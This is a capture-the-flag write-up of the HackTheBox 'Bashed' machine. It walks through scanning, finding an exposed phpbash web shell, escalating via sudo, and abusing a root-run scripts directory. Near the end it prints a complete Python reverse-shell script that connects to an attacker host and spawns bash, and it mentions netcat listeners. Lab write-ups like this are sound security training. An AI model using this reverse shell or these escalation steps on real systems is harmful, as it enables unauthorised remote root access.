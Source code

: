 ```yaml
---
weight: 1
title: "HackTheBox - Bashed Writeup"
date: 2022-03-01
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
description: "HacktheBox - Bashed Writeup"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["python-shell", "gobuster", "crontab", "upgrade-shell-python", "phpbash-webshell"]
categories: ["HacktheBox","Linux"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/2904" name="Arrexel" picture="https://www.hackthebox.com/storage/avatars/4a677d39a1156ca6a4f2fdce085aa3da.png" >}}

<!--more-->

## Nmap

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### Http

Let's take a look at the website. 

![phpbash webpage](website.png "phpbash webpage")

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![check upload directory](upload_dir.png "check upload directory")

### Gobuster

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![gobuster](gobuster.png "gobuster")

### /dev

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![directory listing](dev.png "directory listing")

![phpbash web shell](web_shell.png "phpbash web shell")

## Reverse Shell

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![bash oneliner base64](b64.png "bash oneliner base64")

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![execute reverse shell](bs64_webshell.png "execute reverse shell")

![shell as www-data](got_the_shell.png "shell as www-data")

### Upgrade shell using python

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### User scriptmanager

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![check sudo permission](scriptmanager.png "check sudo permission")

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![change user to scriptmanager](change_2_scriptmanager.png "change user to scriptmanager")

### /scripts

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![found /scripts directory](script_dir.png "found /scripts directory")

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![contents in /scripts](contents.png "contents in /scripts")

## Root Shell

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![shell as root](petai_root.png "shell as root")
